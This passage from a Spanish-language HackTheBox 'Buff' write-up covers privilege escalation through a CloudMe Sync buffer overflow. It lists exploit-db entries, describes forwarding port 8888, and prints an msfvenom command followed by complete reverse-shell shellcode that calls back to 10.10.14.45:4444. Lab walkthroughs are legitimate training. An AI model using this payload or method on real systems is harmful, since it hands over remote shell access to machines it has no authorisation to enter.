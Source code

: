 ```console
	CloudMe Sync < 1.11.0 - Buffer Overflow                                   | windows/remote/44027.py
	CloudMe Sync < 1.11.0 - Buffer Overflow (SEH) (DEP Bypass)                | windows_x86-64/remote/44784.py
	-------------------------------------------------------------------------- ---------------------------------
	Shellcodes: No Results
```

Luego de probar un par de exploits, pude encontrar uno que funciono [**windows/local/44470.py**](https://www.exploit-db.com/exploits/44470) 
lo que va a hacer es un buffer overflow en la maquina local por lo tanto tendremos que hacer portforwarding y redirigir el puerto 8888 a nuestra máquina para poder ejecutar el exploit y obtener la shell como admin.

---
### msfvenom shellcode



```console
kali@kali:~/Documents/hackthebox/buff$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.45 LPORT=4444 -f c
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of c file: 1386 bytes
unsigned char buf[] = 
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
"\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
"\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\x0a\x0a\x0e\x2d\x68"
"\x02\x00\x11\x5c\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
"\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2"
"\x56\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
"\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01\x8d\x44"
"\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56"
"\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff"
"\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6"
"\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
"\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5";
```
